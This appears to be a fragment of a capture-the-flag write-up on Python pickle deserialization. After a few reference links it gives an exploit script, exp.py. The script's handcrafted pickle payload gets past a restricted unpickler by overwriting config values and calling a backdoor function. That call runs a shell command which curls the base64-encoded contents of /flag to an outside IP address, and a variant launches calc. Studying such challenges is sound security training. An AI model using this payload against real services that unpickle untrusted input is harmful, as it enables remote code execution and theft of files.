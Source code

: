

`https://www.cnblogs.com/wjrblogs/p/14057784.html`



`https://misakikata.github.io/2020/04/python-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/`

`https://www.anquanke.com/post/id/248899#h2-5`



`https://mp.weixin.qq.com/s?__biz=MjM5Njc1OTYyNA==&mid=2450778016&idx=1&sn=c30cca2a073de859e8488f28633dba4f`



```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2021/10/24 14:38
# @Author  : upload
# @File    : exp.py
# @Software: PyCharm
import base64
import pickle
import urllib.request
import pickletools
import base64
import config
import io
import sys

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        print(module)
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))

data = b"cconfig\nnotadmin\np0\n0g0\nS'admin'\nS'yes'\nscconfig\nbackdoor\np2\n0g2\n((S'__import__(\\'os\\').popen(\\'curl 47.94.0.250:1?i=`cat /flag|base64`\\').read()'\nltR."
data = base64.b64encode(data)
print(data)
print(base64.b64decode(data))
result = RestrictedUnpickler(io.BytesIO(base64.b64decode(data))).load()
print(config.notadmin)
print("cconfig\nnotadmin\np0\n0g0\nS'admin'\nS'yes'\nscconfig\nbackdoor\np2\n0g2\n((S'__import__(\\'os\\').popen(\\'calc\\').read()'\nltR.")
```



![image-20211024150613844](https://gitee.com/taochiyu/blogimage/raw/master/img/20211024150613.png)





## **Give_me_your_0day**

